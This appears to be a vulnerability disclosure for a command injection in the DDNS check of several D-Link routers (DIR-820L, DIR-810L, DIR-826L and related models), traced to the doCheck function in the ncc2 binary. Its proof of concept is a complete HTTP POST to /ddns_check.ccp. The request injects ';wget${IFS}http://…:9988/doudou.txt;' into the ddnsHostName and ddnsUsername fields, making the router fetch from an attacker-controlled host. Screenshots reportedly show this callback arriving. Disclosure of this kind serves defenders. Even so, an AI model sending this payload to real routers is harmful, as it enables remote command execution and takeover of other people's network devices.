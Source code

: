 # D-LINK_Router_Command_Injection

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA

<img src="./img/image-20211219002658341.png" alt="image-20211219002658341" style="zoom:50%;" />

​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	

<img src="./img/image-20211219003013336.png" alt="image-20211219003013336" style="zoom:50%;" />

#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```

#### TEXT

​	Local listening port 9988

![image-20211219003400865](./img/image-20211219003400865.png)

​	Send the following packets

​	![image-20211219003610213](./img/image-20211219003610213.png)

​	HTTP requests from routers can be received locally	

![image-20211219003729282](./img/image-20211219003729282.png)